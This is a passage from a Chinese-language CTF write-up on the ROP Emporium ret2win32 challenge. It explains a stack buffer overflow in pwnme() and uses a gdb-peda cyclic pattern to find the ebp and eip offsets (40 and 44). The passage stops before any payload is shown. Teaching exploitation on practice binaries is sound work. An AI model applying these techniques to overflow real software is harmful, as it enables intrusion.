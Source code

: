 ```
   0x08048680 <+39>:    leave  
   0x08048681 <+40>:    ret    
End of assembler dump.
```
函数 `pwnme()` 是存在缓冲区溢出的函数，它调用 `fgets()` 读取任意数据，但缓冲区的大小只有 40 字节（`0x0804864a <+84>:    lea    eax,[ebp-0x28]`，0x28=40），当输入大于 40 字节的数据时，就可以覆盖掉调用函数的 ebp 和返回地址：
```
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /home/firmy/Desktop/rop_emporium/ret2win32/ret2win32 
ret2win by ROP Emporium
32bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd5c0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
EBX: 0x0 
ECX: 0xffffd5c0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
EDX: 0xf7f90860 --> 0x0 
ESI: 0xf7f8ee28 --> 0x1d1d30 
EDI: 0x0 
EBP: 0x41304141 ('AA0A')
ESP: 0xffffd5f0 --> 0xf7f80062 --> 0x41000000 ('')
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414641
[------------------------------------stack-------------------------------------]
0000| 0xffffd5f0 --> 0xf7f80062 --> 0x41000000 ('')
0004| 0xffffd5f4 --> 0xffffd610 --> 0x1 
0008| 0xffffd5f8 --> 0x0 
0012| 0xffffd5fc --> 0xf7dd57c3 (<__libc_start_main+243>:       add    esp,0x10)
0016| 0xffffd600 --> 0xf7f8ee28 --> 0x1d1d30 
0020| 0xffffd604 --> 0xf7f8ee28 --> 0x1d1d30 
0024| 0xffffd608 --> 0x0 
0028| 0xffffd60c --> 0xf7dd57c3 (<__libc_start_main+243>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
gdb-peda$ pattern_offset $ebp
1093681473 found at offset: 40
gdb-peda$ pattern_offset $eip
1094796865 found at offset: 44
```
缓冲区距离 ebp 和 eip 的偏移分别为 40 和 44，这就验证了我们的假设。
